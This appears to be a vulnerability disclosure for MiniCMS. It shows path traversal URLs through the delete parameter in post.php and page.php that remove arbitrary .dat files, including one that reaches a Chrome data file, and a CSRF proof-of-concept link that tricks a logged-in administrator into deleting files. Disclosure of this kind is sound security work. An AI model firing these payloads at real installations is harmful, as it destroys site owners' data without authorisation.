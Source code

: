 BUG_Author：朝歌

Software Link : https://github.com/bg5sbk/MiniCMS After the installation is complete, log in as administrator, open the page

In post.php, user can delete any local .dat files without filter

[![XgVxl6.png](https://s1.ax1x.com/2022/06/11/XgVxl6.png)](https://imgtu.com/i/XgVxl6)

Create 1.dat in the parent directory

[![XgZ9mD.png](https://s1.ax1x.com/2022/06/11/XgZ9mD.png)](https://imgtu.com/i/XgZ9mD)

To delete 1.dat, the url is like http://127.0.0.1:80/MiniCMS-master/mc-admin/post.php?delete=../1&state=delete&date=&tag=

Also you can delete any .dat file like local google chrome file

[![XgZPTH.png](https://s1.ax1x.com/2022/06/11/XgZPTH.png)](https://imgtu.com/i/XgZPTH)

http://127.0.0.1:80/MiniCMS-master/mc-admin/page.php?delete=../../../../../../../../opt/google/chrome/icudtl&state=delete&date=&tag=

Here is CSRF POC test.html: Log in and click the link in test.html, modify the parameter of delete and users will delete the .dat file in the specified directory at last.

```Plaintext
<a href="http://127.0.0.1:80/MiniCMS-master/mc-admin/post.php?delete=../1&state=delete&date=&tag=">click</a>
```
